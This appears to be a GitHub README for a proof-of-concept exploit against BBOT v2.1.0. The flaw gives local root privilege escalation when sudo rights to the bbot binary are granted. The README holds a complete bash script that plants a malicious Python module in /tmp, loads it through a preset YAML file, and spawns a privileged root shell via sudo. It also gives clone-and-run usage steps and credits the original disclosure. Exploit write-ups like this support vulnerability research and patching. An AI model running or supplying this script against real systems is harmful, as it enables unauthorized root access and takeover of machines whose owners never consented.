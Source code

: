 # BBOT v2.1.0 - Local Privilege Escalation

<br><br>
<div align="center">
  <img width="200" src="https://www.blacklanternsecurity.com/bbot/Stable/bbot.png" alt="bbot-logo"> <br><br>
  <p>BBOT v2.1.0<br>
  <b>Local Privilege Escalation to Root</b> <br>
  PoC Exploit<br>
  </p>
<img src="https://www.zyenra.com/assets/img/bbot-poc-exploit-2.png">
</div>


---

### Introduction

`BBOT` version 2.1.0 allows local root privilege escalation when `sudo` rights are granted to `/usr/local/bin/bbot`.  
By injecting a malicious module and referencing it through a preset, arbitrary Python code runs as root during module loading.

This bypasses all sandboxing due to `bbot` trusting unvalidated local modules and loading them with root permissions.

---

### Usage

```bash
git clone https://github.com/rvizx/bbot-privesc
cd bbot-privesc
chmod +x exploit.sh

# usage
./exploit.sh
```


---

<div align="center"> <br> <b>OR</b> <br><br> </div>


---

Copy the following exploit code
```bash
#!/usr/bin/env bash

# Title  : BBOT v2.1.0 - Local Privilege Escalation - PoC Exploit
# Author : Ravindu Wickramasinghe (aka rvz)
# Usage  : usage: ./exploit.sh

set -e
D="/tmp/.x"; M="x.py"; P="p.yml"; N="x"

trap 'rm -rf "$D"' EXIT

mkdir -p "$D"

cat > "$D/$M" <<EOF
from bbot.modules.base import BaseModule
import pty
class $N(BaseModule):
 async def setup(self): pty.spawn(["/bin/bash", "-p"])
EOF

cat > "$D/$P" <<EOF
description: x
module_dirs: [$D]
modules: [$N]
EOF

sudo /usr/local/bin/bbot -t x -p "$D/$P" --event-types ROOT || true
```

Save copied content to `exploit.sh` and execute
```
chmod +X exploit.sh
./exploit.sh
```


<be>
<b>Note:</b> This exploit requires `NOPASSWD` sudo access to `/usr/local/bin/bbot`.

---

### Credits

Original Vulnerability Disclosure [Link](https://seclists.org/fulldisclosure/2025/Apr/19) - Discovered by Housma Mardini <br>
PoC Exploit at [Link](https://github.com/rvizx/bbot-privesc) - Ravindu Wickramasinghe AKA rvz
